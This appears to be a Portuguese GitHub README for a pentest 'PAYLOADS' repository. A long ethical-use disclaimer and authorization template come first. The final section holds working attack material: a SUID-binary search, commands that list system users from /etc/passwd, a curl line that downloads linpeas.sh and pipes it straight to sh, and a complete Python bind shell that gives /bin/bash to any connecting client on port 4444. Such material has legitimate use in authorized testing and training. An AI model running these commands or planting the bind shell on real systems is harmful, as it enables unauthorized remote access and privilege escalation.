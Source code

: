 [![Uso Ético](https://img.shields.io/badge/usage-ethical--only-blue.svg)]
# PAYLOADS
Aviso de Uso Ético e Responsável

> Importante: Este repositório contém materiais destinados exclusivamente a testes autorizados de segurança (pentest) e fins educacionais. O conteúdo pode incluir exemplos e ferramentas voltadas à avaliação de segurança — não deve ser usado para atividades ilegais, não autorizadas ou maliciosas.




---

Finalidade

O objetivo deste projeto é auxiliar profissionais de segurança e estudantes a entender vetores, montar laboratórios controlados e realizar testes de intrusão em ambientes onde haja autorização explícita. Conteúdo e exemplos servem como recursos pedagógicos para melhorar práticas de defesa, detecção e mitigação.


---

Autorização obrigatória

Você deve ter autorização explícita, por escrito, do proprietário do sistema ou do ambiente alvo antes de executar qualquer código ou teste derivado deste repositório. Exemplos de ambientes aceitáveis:

Máquinas virtuais, containers ou laboratórios isolados de sua propriedade;

Plataformas de treinamento/CTF com permissão para testes;

Ambientes de clientes com contrato e autorização documentada.



---

Proibições

É proibido utilizar qualquer conteúdo deste repositório para:

Atacar, comprometer, modificar ou acessar sistemas sem permissão;

Realizar atividades que violem leis locais, nacionais ou termos de serviço de terceiros;

Criar persistência, backdoors ou mecanismos que facilitem o acesso não autorizado em sistemas alheios.



---

Aviso de responsabilidade

Este projeto pode conter exemplos que ilustram técnicas de exploração (por exemplo, demonstrações usando Python, manipulação de permissões e shells) apenas para fins de teste controlado. O mantenedor e contribuidores não se responsabilizam por qualquer uso indevido, perda, dano ou violação legal resultante do uso dos materiais aqui publicados.

Ao usar este repositório você concorda em assumir total responsabilidade pelas suas ações e a cumprir todas as leis aplicáveis.


---

Boas práticas recomendadas

Teste somente em ambientes isolados (VMs, snapshots, redes internas de laboratório).

Mantenha backups e procedimentos de recuperação antes de qualquer teste.

Documente autorização por escrito sempre que realizar testes em sistemas de terceiros.

Aplique mitigação e correções após testes e reporte vulnerabilidades de forma responsável ao proprietário do ativo.

Use controle de versões e revisões de código para auditar experimentos.



---

Modelo de autorização (exemplo)

> Autorização para Teste de Segurança (Exemplo)

Eu, [NOME DO PROPRIETÁRIO], na qualidade de proprietário/gestor do sistema [IDENTIFICAR SISTEMA/AMBIENTE], autorizo [NOME DO TESTADOR] a realizar testes de segurança (pentest) no escopo definido abaixo, nas datas [DATA INI] a [DATA FIM], de acordo com as condições e limitações descritas.

Escopo: [hosts/IPs, serviços, portas e limites]

Limitações: [ex.: sem DoS, sem manipular dados de produção, backup obrigatório]





> Observação: Este é apenas um modelo e não substitui orientação legal ou contratos formais. Para pentests profissionais, utilize contratos e termos específicos com suporte jurídico.




---

Reporte de vulnerabilidades

Se você identificar um comportamento perigoso, erro grave ou um possível risco dentro deste repositório, por favor reporte de forma privada para o mantenedor no e‑mail: [SEU_CONTATO_AQUI] para que possamos avaliar e corrigir rapidamente.


---

Diretrizes de contribuição

Contribuições são bem‑vindas desde que sigam as diretrizes de uso ético e não incluam material que incentive ou facilite atividades ilegais. Ao submeter conteúdo, garanta que ele:

Seja educacional e documentado com contexto e mitigação;

Não inclua payloads funcionais destinados ao uso em alvos não autorizados;

Esteja acompanhado de instruções claras de segurança e requisitos de autorização.







---
Code para localizar SUID: find / -perm-4000 2>/dev/null

list: GTFOBINS

users_bash: cut -d: -f1 /etc/passwd
# ou
getent passwd | cut -d: -f1
# ou (mostra também UID)
getent passwd | awk -F: '{printf "%-20s UID:%s\n",$1,$3}'

#baixa e utiliza limpezas.sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh







#!/usr/bin/env python3
# bind_shell.py
import socket, os, pty

HOST = "0.0.0.0"   # escuta em todas as interfaces
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)
print(f"[+] Listening on {HOST}:{PORT} ...")
conn, addr = s.accept()
print(f"[+] Connection from {addr}")

# dup socket para stdin/out/err e abrir um pty para interatividade
os.dup2(conn.fileno(), 0)
os.dup2(conn.fileno(), 1)
os.dup2(conn.fileno(), 2)
pty.spawn("/bin/bash")

conn.close()
s.close()